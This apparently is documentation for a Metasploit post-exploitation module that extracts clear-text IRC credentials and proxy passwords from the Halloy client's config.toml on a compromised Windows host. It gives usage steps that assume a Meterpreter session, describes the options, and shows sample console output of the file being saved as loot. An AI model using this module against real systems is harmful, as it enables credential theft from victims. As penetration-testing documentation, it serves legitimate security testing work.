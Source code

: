 ## Vulnerable Application

  This post-exploitation module extracts clear text credentials from the Halloy IRC Client.

  The Halloy IRC Client is avaialble from (https://github.com/squidowl/halloy).

  This module extracts information from the config.toml file in the "AppData\Roaming\Halloy" directory.

  This module extracts server information such as server, port, nickname, password and proxy password.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/halloy_irc
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files
which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifacts/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_DATA
This option is turned on by default and will perform the data extraction using the predefined
regular expression. The 'Store loot' options must be turned on in order for this to take work.

## Scenarios
### Halloy v2024.6 on Microsoft Windows 10 Home 10.0.19045 N/A Build 19045 - Default Output
```
msf6 post(windows/gather/credentials/halloy_irc) > run

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_DATA: true

[*] Halloy irc's Config.toml file found
[*] Downloading C:\Users\test\AppData\Roaming\halloy\config.toml
[*] Halloy irc Config.toml downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240507133313_default_10.0.0.2_HalloyIRCconfig_968975.toml

[+] server="irc.libera.chat"
[+] port=6697
[+] nickname="halloy4169"
[+] File with data saved:  /home/kali/.msf4/loot/20240507133313_default_10.0.0.2_EXTRACTIONconfig_815098.toml
[*] PackRat credential sweep Completed
[*] Post module execution completed

```

### Halloy v2024.6 on Microsoft Windows 10 Home 10.0.19045 N/A Build 19045 - Verbose Output
```

msf6 post(windows/gather/credentials/halloy_irc_v2) > run

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_DATA: true

[*] Starting Packrat...
[-] Halloy irc's base folder not found in users's user directory

[*] Starting Packrat...
[*] Halloy irc's base folder found
[*] Found the folder containing specified artifact for config.toml.
[*] Halloy irc's Config.toml file found
[*] Processing C:\Users\test\AppData\Roaming\halloy
[*] Downloading C:\Users\test\AppData\Roaming\halloy\config.toml
[*] Halloy irc Config.toml downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240507145656_default_10.0.0.2_HalloyIRCconfig_292638.toml

[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] server="irc.libera.chat"
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] port=6697
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] nickname="halloy4169"
[+] File with data saved:  /home/kali/.msf4/loot/20240507145656_default_10.0.0.2_EXTRACTIONconfig_238220.toml
[*] PackRat credential sweep Completed
[*] Post module execution completed

```

